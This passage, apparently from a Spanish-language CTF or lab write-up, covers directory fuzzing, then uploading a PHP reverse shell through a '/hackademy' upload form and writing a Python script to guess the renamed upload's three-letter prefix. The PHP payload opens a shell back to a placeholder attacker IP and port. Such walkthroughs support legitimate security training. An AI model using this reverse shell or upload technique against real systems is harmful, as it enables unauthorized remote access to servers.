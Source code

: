 ```
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```

Vemos varias cosas interesantes, entre ellas una llamada `/hackademy`.

## Escalate user www-data

Si nos metemos en la siguiente ruta:

```
URL = http://<IP>/hackademy
```

Veremos una pagina en la que podremos subir un archivo, por lo que subiremos uno `.php` para crearnos una `reverse shell`.

> exploit.php

```php
<?php
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```

Si probamos a subirlo veremos esto:

```
El archivo exploit.php ha sido subido y alterado xxx_tuarchivo , localizalo y actua.
```

Por lo que vemos se subio correctamente, pero el nombre ha cambiado, por lo que tendremos que hacer fuzzing para ver que nombre tiene ahora delante del nombre que le pusimos mas cualquier tipo de caracteres, por lo que nos montaremos un script.

> script.py

```python
from itertools import product

def generar_combinaciones_y_guardar(base, reemplazo, archivo_salida):
    """
    Genera todas las combinaciones reemplazando 'xxx' con combinaciones de tres letras del abecedario
    y las guarda en un archivo de texto.
    """
    alfabeto = 'abcdefghijklmnopqrstuvwxyz'
    with open(archivo_salida, 'w') as archivo:
        for letras in product(alfabeto, repeat=3):
            combinacion_reemplazo = ''.join(letras)
            combinacion = base.replace(reemplazo, combinacion_reemplazo)
            archivo.write(combinacion + '\n')
    print(f"Combinaciones generadas y guardadas en {archivo_salida}")

# Configuración inicial
base_palabra = "xxx_exploit"
reemplazo = "xxx"
archivo_salida = "combinaciones.txt"

# Generar combinaciones y guardarlas en un archivo
generar_combinaciones_y_guardar(base_palabra, reemplazo, archivo_salida)
```
